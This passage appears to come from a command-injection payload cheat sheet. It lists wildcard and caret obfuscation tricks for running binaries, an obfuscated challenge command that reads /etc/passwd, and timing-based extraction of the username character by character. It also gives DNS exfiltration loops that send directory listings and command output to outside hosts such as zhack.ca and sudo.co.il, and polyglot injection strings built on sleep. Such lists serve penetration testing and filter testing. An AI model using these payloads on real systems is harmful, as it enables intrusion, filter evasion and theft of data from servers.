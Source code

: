 #### Bypass with wildcards

```powershell
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```

## Challenge

Challenge based on the previous tricks, what does the following command do:

```powershell
g="/e"\h"hh"/hm"t"c/\i"sh"hh/hmsu\e;tac$@<${g//hh??hm/}
```

## Time based data exfiltration

Extracting data : char by char

```powershell
swissky@crashlab:~$ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real    0m5.007s
user    0m0.000s
sys 0m0.000s

swissky@crashlab:~$ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real    0m0.002s
user    0m0.000s
sys 0m0.000s
```

## DNS based data exfiltration

Based on the tool from `https://github.com/HoLyVieR/dnsbin` also hosted at dnsbin.zhack.ca

```powershell
1. Go to http://dnsbin.zhack.ca/
2. Execute a simple 'ls'
for i in $(ls /) ; do host "$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
```

```powershell
$(host $(wget -h|head -n1|sed 's/[ ,]/-/g'|tr -d '.').sudo.co.il)
```

Online tools to check for DNS based data exfiltration:

- dnsbin.zhack.ca
- pingb.in

## Polyglot command injection

```bash
1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}

e.g:
echo 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
echo '1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
echo "1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
```

